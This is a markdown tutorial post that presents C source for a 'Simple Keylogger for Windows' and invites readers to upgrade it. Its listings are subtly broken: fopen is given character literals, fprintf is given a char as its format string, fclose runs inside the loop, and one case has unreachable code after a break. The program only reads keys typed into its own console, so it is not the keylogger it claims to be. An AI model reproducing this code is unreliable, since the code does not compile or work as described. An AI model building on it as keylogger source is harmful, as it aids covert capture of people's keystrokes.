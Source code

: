 ```yaml
---
title: "Simple Keylogger for Windows"
draft: false
author: "Aryan Kapse"
---
```


# Simple Keylogger for Windows


**Very important note**:

    This Program To be used for educational use and not for malicious tasks!
    I will NOT be held responsible for anything silly you may do with this!


- **What is Keylogger** ?
keylogger is application or a program that record the keys pressed by user and store into file


Program:

**NOTE**: we are writing simple demonstration program in which we using fucntion called `kbhit()` to detect if any key is pressed on keyboard. this is not advance keylogger, you can use this keylogger and upgrade it as you want.

**Code**
```c
/* file:keylogger.c */
/* Author: Dr.Deathvolt */

//we need to include the library for input and output
#include<stdio.h>
// we need to include the library which can give us console input output
// this library also contain the funciton which we are going to use `kbhit()`
#include<conio.h>

int main(){
	char ch;
	while(1){
		if(kbhit()){
			// kbhit() to detect any key is pressed on keyboard
			ch = getch(); // storing pressed key value in ch variable

			if((int)ch == 27) //if ESC(in ascii 27) is pressed
				break; // then break the while loop
			printf("\n Key pressed = %c",ch); // printing pressed keys
		}
	}
	return 0;
}
```

**NOTE**:(for Linux users who coding this program on linux)
- Linux doesn't have `<conio.h>`
- You need to install `mingw-w64` to compile programs for Windows
- `sudo apt-get install mingw-w64`
	- compile the program
	- for 32-bit `i686-w64-mingw32-gcc -o test.exe test.c`
	- for 64-bit `x86_64-w64-mingw32-gcc -o test.exe test.c`
- You need to run that exe file on Windows

### File Operations

now we need to store this pressed keys record into file

So, first we define `FILE` datatype which we use as a variable to a file and we are using some file functions like `fopen()`,`fprintf()`,`fclose()`,`fputc()` etc.

**Code**
```c
/* File : Keylogger.c */
/* Author : Dr.Deathvolt */

#include<stdio.h>
#include<conio.h>

int main(){
	char ch;
	FILE *f;
	f = fopen('keys.txt','a'); // opening file in variable 'f'
	// we are opening 'keys.txt' file in appending mode
	// if keys.txt file is not present in program directory
	// append mode will create the file
	while(1){
		if(kbhit()){
			ch = getch();
			fprintf(f,ch); // writing 'ch' data in 'f' file (means keys.txt file)
			if((int)ch == 27) 
				break;
			//this time after breaking the while loop we are not printing any data on console we are storing the data into a file.
			fclose(f); //fclose() will close the file.
		}
	}
	return 0;
}
```

**Final Step**
now we are on final stage, if user will press [ESC] or [TAB] like keys how you will understand where and when this keys are pressed?
for that we are writing some condition statements to detect if any of this special keys will pressed.

> we are using hex codes of this keys to detect if that key is pressed or not.

- You can get this hex values [here](https://www.rapidtables.com/code/text/ascii-table.html)

```c
/* File : Keylogger.c */
/* Author : Dr.Deathvolt */

#include<stdio.h>
#include<conio.h>

int main(){
	char ch;
	FILE *f;
	f = fopen('keys.txt','a');
	while(1){
		if(kbhit()){
			ch = getch();
			//checking hex value of pressed key and writing into a file
			switch ((int)ch){
                case ' ': // Space key
                    fprintf(f, " ");
                    break;
                case 0x09: // Tab key.
                    fprintf(f, "[TAB]");
                    break;
                case 0x0D: // Enter key.
                    fprintf(f, "[ENTER]");
                    break;
                case 0x1B: // Escape key.
                    break;
                    fprintf(f, "[ESC]");
                case 0x08: // Backspace key.
                    fprintf(f, "[BACKSPACE]");
                    break;
                default:
                    fputc(ch,f); // other keys will by default print in file
            }
			if((int)ch == 27) 
				break;
			fclose(f);
		}
	}
	return 0;
}

```

This is Just a demonstartion that explain How keyloggers work.

Thank You for Reading, Hope You Learned something from it :^)

